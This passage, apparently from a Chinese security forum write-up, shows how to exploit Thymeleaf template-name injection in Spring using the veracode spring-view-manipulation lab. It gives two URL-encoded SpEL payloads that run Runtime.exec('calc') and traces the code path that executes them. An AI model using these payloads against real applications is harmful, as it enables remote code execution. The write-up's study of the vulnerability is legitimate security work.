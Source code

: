 3.2 漏洞利用
--------

环境：spring-view-manipulation（<https://github.com/veracode-research/spring-view-manipulation/>）  
服务端代码：

![18.jpg](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-bda975de422b756529b945da0cd0ec045a5fd867.jpg)

模板代码：

![19.jpg](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-bb94663f0bc35c4ada0b8afcb0e67a3eb0b665ea.jpg)  
**漏洞利用方法一：**

```python
payload:__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22calc%22).getInputStream()).next()%7d__::.x
uri:/path?lang=__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22calc%22).getInputStream()).next()%7d__::.x
```

![20.jpg](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-c64bb433b5a3aba802e55b69c8ba8fbeac8405e1.jpg)

进行数据提交，成功获取到提交的payload

![21.jpg](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-58fe435422f3c6ae9c0c745f10ee8c6305da05f7.jpg)

进行跟进，在 org.thymeleaf.spring5.view 中的 ThymeleafView类中thymeleaf 在解析包含 :: 的模板名时，会将其作为表达式去进行执行

![22.jpg](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-2e314f265becc5ba1665c9240d578b7406ed870c.jpg)

继续跟进，在StandarExpressionPreprocessor类中利用正则对\_\_(.\*?)\_\_进行匹配，也就是payload\_\_中间的内容

![23.jpg](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-75fc1f6e10276c3a3c9ed3cf3b2dbba50598580f.jpg)

匹配处理完成后为${new.java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("calc").getInputStream()).next()}

![24.jpg](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-5aada6175baf005c807753abb97db66246af02d9.jpg)

继续跟进execute

![25.jpg](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-2ad3a19f49b2a8c9ade5db98295cca3788c74ea0.jpg)

可以看到是使用的SPEL 引擎，满足**(${SPEL})**::格式达到注入的效果

![26.jpg](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-f9ff83c59dd2c56e33424616a359249ad7c429f6.jpg)

进入后成功执行代码

![27.jpg](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-0465f78bc23d2be7db5cd9f44cddb43e3074a186.jpg)  
**漏洞利用方法二：**

```python
payload:__$%7BT(java.lang.Runtime).getRuntime().exec(%22calc%22)%7D__::.x
uri:/doc/__$%7BT(java.lang.Runtime).getRuntime().exec(%22calc%22)%7D__::.x
```
